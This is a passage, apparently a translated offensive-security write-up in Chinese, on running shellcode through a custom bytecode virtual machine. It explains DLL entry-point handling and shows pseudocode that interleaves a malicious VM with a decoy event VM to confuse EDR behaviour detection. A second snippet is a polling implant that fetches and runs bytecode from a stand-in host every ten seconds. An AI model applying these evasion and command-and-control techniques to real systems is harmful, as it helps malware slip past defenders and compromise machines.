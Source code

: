 - - - - - -

可执行文件和 DLL 在外观和执行方式上非常相似。两者都有一个执行传递的入口点，并且都会返回一个值。然而，可执行文件的执行流程从入口点开始，并且直到程序停止才结束。DLL 通常在其入口点内执行非常有限的初始化操作，并将执行返回给加载程序以避免锁定加载程序线程。此外，DLL 的入口点会被多次调用：在进程启动和关闭时，以及在线程创建和销毁时。调用入口点的原因由加载程序在第二个参数`dwReason`中传递。这使得`DllMain`函数内部的代码能够区分入口点被调用的原因，并做出相应的操作。

> `BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved);`

为了允许我们的 shellcode 嵌入到 DLL 中，虚拟机和其字节码都必须意识到调用的原因。这需要虚拟机和字节码的入口点与 DLL 的匹配，通过操作系统加载程序自动接收原因。这不会干扰正常可执行文件使用的入口点，因为任何可执行文件的默认入口点不会直接接受任何参数，而是由 C 运行时解析参数 `argc` 和 `argv`，而 C 运行时不会链接。

在初始化时，虚拟机将字节码的`rdx`寄存器设置为其原因参数的值，并将该值作为第二个参数传递给入口点。程序员必须决定是否在字节码中检查此值，并且在编写嵌入在可执行文件中的字节码时不应使用该值。

欺骗行为分析：多虚拟机执行
=============

- - - - - -

早些时候，基于行为的检测方法已经讨论过。这种动态形式的检查应用程序的执行流程，无论静态模式如何，都很难让攻击者摆脱其恶意软件。打开 `Lsass.exe` 并读取其内存可能被标记为恶意，即使该进程看起来像 `calc.exe`。通常，防御产品通过内核回调接收事件，例如 `PsSetCreateProcessNotifyRoutine` 或 `PsSetLoadImageNotifyRoutine`，本地进程中的 API/syscall 钩子，或者使用 Windows 事件跟踪（ETW）消费者。

在本地进程中修补钩子以及提供事件的本地 ETW 功能是微不足道的。这样可以消除杀毒软件或 EDR 解决方案对进程的侵入式监控，并阻止进程创建事件。然而，一些事件仍然会生成，主要是由内核中存在的 ETW 提供程序以及内核回调生成的。此外，在修补过程中创建的事件仍然可能被监视。最后，使防御产品失效可能会产生负面影响，因为未能接收到检查可能被视为错误，本身可能被视为恶意行为的信号。

作为攻击者，生成任意事件以及可能引起检测的事件可能是一种阻挠基于行为的动态检测规则的方法。在常规指令之间添加生成事件的代码将需要操纵源代码，这并不理想。创建一个生成随机事件的新线程可能是徒劳的，因为事件是按照进程中的唯一线程注册的。

虚拟机已扩展以支持`vmcalls`。字节码发出的这些类型的`call`指令通知虚拟机层需要执行任务。在多种不同支持的调用中，最值得注意的有以下几种：

`vminit`: 使用字节码和参数初始化虚拟机对象 `vmexec`: 在虚拟机上执行 N 个周期

这两个调用的组合允许字节码创建一个新的虚拟机，并执行预定数量的指令：

`#define NUM_CYCLES 200      // 加载恶意字节码并创建虚拟机对象   auto malicious = load_malicious_instructions();   auto malicious_vm = allocate_vm_object();      // 加载创建事件的字节码   auto events = load_event_bytecode();   auto events_vm = allocate_vm_object();      // 使用它们的字节码初始化虚拟机对象，且不带任何参数   vmcall<vminit>::call(malicious_vm, malicious, nullptr);   vmcall<vminit>::call(events_vm, events, nullptr);      while (true) {       vmcall<vmexec>::call(malicious_vm, NUM_CYCLES);       vmcall<vmexec>::call(events_vm, NUM_CYCLES);   }`

因为两组字节码都在同一个虚拟机内执行，因此在同一个线程上执行，无法区分每个事件的来源。操作系统和任何事件消费者将观察到一个单一线程生成多个事件，其中既有良性事件，也可能有恶意事件。对于攻击者来说，最重要的是这可能会破坏被监视的行为模式。

作为这些额外指令的另一个好处，现在可以在运行时获取和执行字节码。在负载开发过程中，这被证明是一个非常有用的功能，因为在命令和控制期间不需要分阶段地放置 shellcode，而可以提供字节码。这消除了为执行 shellcode 分配可执行内存区域（或在后期更改内存保护）的必要性，从而消除了防御产品检查用于动态代码执行的缓冲区的机会，这些缓冲区经常被攻击者利用。

例如，可以实现以下行为来创建一个简单的轮询植入物，每 10 秒请求一次字节码：

`// 分配虚拟机对象   auto vm = allocate_vm_object();      while (true) {       // 尝试从服务器获取字节码       void* bytecode = http_get("https://example.com/bytecode");          // 检查是否接收到字节码       if (bytecode) {           // 使用我们的字节码初始化虚拟机对象，并完全执行它           vmcall<vminit>::call(vm, bytecode, nullptr);           vmcall<vmexec>::call(vm, RUN_UNTIL_END);       }          // 释放字节码缓冲区并休眠10秒       free(bytecode);       sleep(10'000);   }`

保护虚拟机
=====

- - - - - -

